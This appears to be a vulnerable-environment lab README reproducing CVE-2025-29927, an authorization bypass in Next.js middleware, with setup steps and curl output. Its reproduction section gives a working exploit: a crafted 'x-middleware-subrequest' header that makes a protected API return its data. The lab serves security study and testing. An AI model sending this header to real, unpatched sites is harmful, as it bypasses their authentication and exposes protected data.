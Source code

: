 # Next.js Middleware Authorization Bypass Vulnerability (CVE-2025-29927) 

Next.js is a web application framework based on React. It provides features like server-side rendering, static site generation, routing system, and API routes. When Next.js is configured to use middleware for authentication, attackers can exploit a vulnerability to bypass authentication.

## Starting the Environment

Execute the following command, then visit `http://ip:3000`:

```
docker compose up --build
```

### Manual Setup

Run the following command:

```bash
npm install
```

Start the application:

```bash
npm run build
npm start
```

Visit http://ip:3000

## Reproducing the Vulnerability

Directly accessing the protected API:
```
curl -i http://localhost:3000/api/protected/data
HTTP/1.1 307 Temporary Redirect
location: /unauthorized
Date: Sat, 22 Mar 2025 19:39:36 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Transfer-Encoding: chunked

/unauthorized#
```

Run the following command to reproduce the vulnerability:
```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000/api/protected/data
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
ETag: "8s59pt2il13l"
Content-Length: 175
Vary: Accept-Encoding
Date: Sat, 22 Mar 2025 19:41:09 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"message":"Successfully retrieved sensitive data","sensitiveData":"This is some sensitive data that should be protected","userId":12345,"adminAccess":true,"timestamp":"2025-03-22T19:41:09.957Z"}#
